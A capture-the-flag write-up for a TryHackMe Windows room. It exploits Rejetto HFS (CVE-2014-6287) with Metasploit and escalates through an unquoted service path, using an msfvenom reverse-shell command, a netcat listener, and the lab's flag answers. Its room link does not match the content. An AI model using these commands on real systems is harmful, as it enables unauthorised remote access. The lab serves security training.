  **Difficulty**: Easy  
**Platform**: TryHackMe  
**Room Link**: https://tryhackme.com/room/kenobi    
**Author**: Ry@n

---
## Overview
Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.
## Recon using nmap
![Nmap Scan](images/Pasted%20image%2020250816212259.png)
# Task 1:
## 1. Who is the employee of the month?:
- Answer: Bill Harper
	- We can find the name by using reverse image search:
	![Reverse Search](images/Pasted%20image%2020250816212607.png)
# Task 2: Initial Access
## 1. Scan the machine with nmap. What is the other port running a web server on?
- Answer: 8080
	- `nmap 10.201.75.76 -T 4 -A`
	![Nmap Output](images/Pasted%20image%2020250816213145.png)
	- We can see that port 8080 is running a HttpFileServer
## 2.Take a look at the other web server. What file server is running?
 - Answer: Rejetto HTTP File Server
	 - To find the name of the file we need to check the server info
	  ![Server Info 1](images/Pasted%20image%2020250816213722.png)
	  ![Server Info 2](images/Pasted%20image%2020250816213836.png)
## 3. What is the CVE number to exploit this file server?
- Answer: 2014-6287
	- To find the CVE number is fairly easy, just put Rejetto Http File Server 2.3 in the search function on exploit-db
	![ExploitDB](images/Pasted%20image%2020250816214347.png)
## 4. Use Metasploit to get an initial shell. What is the user flag?
- Answer: ��b04763b6fcf51fcd7c13abc7db4fd365
	- Here is the step:
	![Exploit 1](images/Pasted%20image%2020250816215552.png)
	![Exploit 2](images/Pasted%20image%2020250816215659.png)
	![Exploit 3](images/Pasted%20image%2020250816215715.png)
# Task 3: Privilege Escalation
- Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!
- To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "_PowerUp aims to be a clearinghouse of common Windows privilege escalation_ _vectors that rely on misconfigurations._" 
- Here is the script: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
- After download it, we can use the **upload** command in Metasploit to upload the script
	![Upload Script](images/Pasted%20image%2020250816220419.png)
- To execute the script we need a power shell ![PowerShell Shell](images/Pasted%20image%2020250816220605.png)
- After we got the shell let execute the script 
	![Run PowerUp](images/Pasted%20image%2020250816220844.png)
## 1.Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
- Answer: AdvancedSystemCareService9
	- Here is the service that had the CanRestart option set to true
![Service Info](images/Pasted%20image%2020250816221149.png)
	 - The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!
- Now we need to use msfvenom to generate a reverse shell as an Windows executable.
`msfvenom -p windows/shell_reverse_tcp LHOST=10.4.127.243 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`
 ![Payload Creation](images/Pasted%20image%2020250816221452.png)
- After we got our reverse shell, we need to upload it
 ![Upload Payload](images/Pasted%20image%2020250816223353.png)
- After that we need to setup a listener using nc 
 ![Netcat Listener](images/Pasted%20image%2020250816223508.png)
 - Now we need to stop the service, overwrite the file with our payload then restart it
 ![Restart Service](images/Pasted%20image%2020250816223618.png)
 - Now we got a connection from the machine
## 2. What is the root flag?
- Answer:9af5f314f57607c00fd09803a587db80
- ![Root Flag](images/Pasted%20image%2020250816223802.png)
